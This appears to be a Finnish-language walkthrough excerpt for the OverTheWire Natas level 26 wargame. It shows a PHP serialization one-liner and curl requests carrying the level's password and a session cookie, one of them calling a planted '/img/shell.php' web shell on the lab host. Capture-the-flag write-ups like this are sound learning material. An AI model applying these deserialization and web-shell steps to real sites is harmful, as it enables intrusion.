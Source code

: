 ```
            [y2] => 123
        )

)
```

![alt text](./kuvat-level22-28/natas26-6.png)


**tämä muuttaa sen takaisin** - eli ei hyötyä kauhesti.. että wtf
```
┌──(kali㉿kali)-[~]
└─$ php -r '$o = ["x1"=>"32", "y1"=>"57", "x2"=>"89", "y2"=>"123"]; print base64_encode(serialize($o))."\n";'
YTo0OntzOjI6IngxIjtzOjI6IjMyIjtzOjI6InkxIjtzOjI6IjU3IjtzOjI6IngyIjtzOjI6Ijg5IjtzOjI6InkyIjtzOjM6IjEyMyI7fQ==



curl http://natas26.natas.labs.overthewire.org/img/shell.php \
  --user "natas26:cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE" \
  --cookie "drawing=g8hn7mhe42vm00c3cgqnbhqkgf"
```

Tässä aloin suorittaa sitä curl komentoa, että perään normi basic authentication ja --cookie evässte mitä drawing keräättiin tuolta selaimen kautta ja päivitetty selain että tuoreemman version esim. Kali linux sisäisen **BURP suite** omalla selaimella eikä firefox kautta.
```
┌──(kali㉿kali)-[~]
└─$ curl http://natas26.natas.labs.overthewire.org/ \             
  --user "natas26:cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE" \
  --cookie "drawing=g8hn7mhe42vm00c3cgqnbhqkgf"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas26", "pass": "cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE" };</script></head>
<body>

<h1>natas26</h1>
<div id="content">
```
